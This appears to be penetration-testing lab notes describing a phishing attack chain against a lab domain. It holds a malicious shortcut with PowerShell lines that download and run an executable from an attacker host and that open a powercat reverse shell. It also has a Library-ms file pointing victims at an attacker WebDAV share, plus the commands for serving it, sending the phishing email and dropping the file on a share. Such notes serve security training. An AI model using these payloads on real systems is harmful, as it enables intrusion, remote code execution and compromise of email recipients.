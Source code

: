 ### Phishing

search for possible pdf file for email account (exiftool)

```jsx
.
├── body.txt
├── config.Library-ms
├── powercat.ps1
└── webdav
    └── powershell.lnk

//powershell.link
powershell.exe -c "iwr -uri <http://192.168.45.208:8888/supershell/compile/download/rs.exe> -Outfile C:\\Users\\Public\\test_6.exe ; C:\\Users\\Public\\test_6.exe"
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.219:8001/powercat.ps1'); powercat -c 192.168.45.219 -p 4444 -e powershell"

//config.Library-ms
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="<http://schemas.microsoft.com/windows/2009/library>">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url><http://192.168.45.208></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>s
</libraryDescription>

wsgidav --port=80 --host=0.0.0.0 --root=/home/kali/Desktop/tools/phishing/webdav --auth=anonymous

//exploit1:sending phishing email
sudo swaks -t jim@relia.com --from maildmz@relia.com --attach @config.Library-ms --server 192.168.167.189 --body @body.txt --header "Subject: Staging Script" --suppress-data -ap
Username: 
Password: 

//exploit2:simulating clicking from share
smbclient //192.168.50.195/share -c 'put config.Library-ms'
```

# Credentials

